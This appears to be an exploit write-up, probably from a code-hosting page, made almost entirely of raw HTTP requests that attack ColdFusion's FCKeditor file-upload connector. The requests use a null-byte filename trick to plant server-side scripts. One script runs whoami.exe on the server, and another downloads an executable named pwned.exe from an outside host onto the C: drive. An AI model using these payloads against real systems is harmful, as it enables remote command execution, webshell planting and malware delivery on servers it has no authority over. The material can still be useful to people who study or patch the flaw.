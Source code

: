 Upload file
````
POST /CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/
  upload.cfm?Command=FileUpload&Type=File&CurrentFolder=%2f HTTP/1.0
  Host: 111.111.11.11
  Content-Length: 142
  Content-Type: multipart/form-data; boundary=o0oOo0o
  Connection: close

  --o0oOo0o
  Content-Disposition: form-data; name="NewFile"; filename="command.txt"
  Content-Type: text/html

  Command Test File
  --o0oOo0o--
````

Execute : whoami.exe

````
POST /CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/
  upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/who.cfm%00 HTTP/1.0
  Host: 111.111.11.11
  Content-Length: 287
  Content-Type: multipart/form-data; boundary=o0oOo0o
  Connection: close

  --o0oOo0o
  Content-Disposition: form-data; name="NewFile"; filename="who.txt"
  Content-Type: text/plain

  <cfsetting enablecfoutputonly="yes" showdebugoutput="no">
  <cfexecute name="whoami.exe" arguments="" timeout="30" variable="pwned"/>
  <cfoutput>#pwned#</cfoutput>
  --o0oOo0o--
````

````
  POST /CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/
  upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/cfdownload.cfm%00 
  HTTP/1.0
  Host: 111.111.11.11
  Content-Length: 278
  Content-Type: multipart/form-data; boundary=o0oOo0o
  Connection: close

  --o0oOo0o
  Content-Disposition: form-data; name="NewFile"; filename="cfdownload.txt"
  Content-Type: text/plain

  <cfsetting enablecfoutputonly="yes" showdebugoutput="no">
  <cfhttp method="get" url="https://1.1.1.1/pwned.exe" path="c:\" file="pwned.exe" />
  --o0oOo0o--
````
 